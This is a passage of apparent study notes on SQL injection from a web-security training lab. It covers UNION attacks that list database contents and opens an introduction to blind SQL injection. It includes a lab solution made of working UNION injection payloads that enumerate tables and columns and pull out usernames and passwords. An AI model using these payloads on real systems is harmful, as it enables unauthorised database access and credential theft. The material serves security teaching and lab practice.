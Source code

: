This returns output like the following:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

This output shows the columns in the specified table and the data type of each column.

## Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the`administrator`user.

```
Solution

' order by 2-- -

' union select TABLE_NAME,null from information_schema.tables-- -

' union select COLUMN_NAME,null from information_schema.columns where table_name='users_fjcpau' -- -

' union select username_auendh,password_yxjhbo from users_fjcpau-- -
```

## Blind SQL injection

In this section, we describe techniques for finding and exploiting blind SQL injection vulnerabilities.

## What is blind SQL injection?

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as`UNION`attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Exploiting blind SQL injection by triggering conditional responses
